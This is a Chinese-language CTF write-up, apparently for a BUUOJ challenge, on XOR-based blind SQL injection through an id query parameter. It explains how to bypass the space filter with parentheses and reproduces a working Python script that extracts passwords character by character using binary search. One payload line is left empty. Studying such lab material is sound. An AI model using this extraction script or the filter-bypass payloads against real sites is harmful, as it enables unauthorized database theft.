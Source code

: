 *   还是这个 sql 注入，但这次的注入点不在登录框，在上面的 id 查询。
*   测试一番，做过好几个异或注入了，很快能测试出来就是它。`1^1`返回错误，`1^0`返回 id=1 的查询结果。
*   然后继续测发现空格被过滤。`/**/`不能用，可以用`()`分割语句。
*   而payload就是
*   所以可以用脚本从数据库开始跑。贴上一位大师傅的脚本，主要二分法我不会写，学习一下，下次自己写。

```
import re
import requests
import string

url = "http://9f6539fe-1a9e-400b-bb7f-5eec012bb852.node3.buuoj.cn/search.php"
flag = ''
def payload(i,j):

    sql = "1^(ord(substr((select(group_concat(password))from(F1naI1y)),%d,1))>%d)^1"%(i,j)
    data = {"id":sql}
    r = requests.get(url,params=data)

    if "Click" in r.text:
        res = 1
    else:
        res = 0

    return res

def exp():
    global flag
    for i in range(1,10000) :
        print(i,':')
        low = 31
        high = 127
        while low <= high :
            mid = (low + high) // 2
            res = payload(i,mid)
            if res :
                low = mid + 1
            else :
                high = mid - 1
        f = int((low + high + 1)) // 2
        if (f == 127 or f == 31):
            break

        flag += chr(f)
        print(flag)

exp()
print('flag=',flag) 
```

*   上面的注入 payload 用到了一个`ord()`函数,其实可以用`ASCII()`代替。[函数介绍](http://www.hechaku.com/sqlfunction/sql_ord__hanshu.html)。
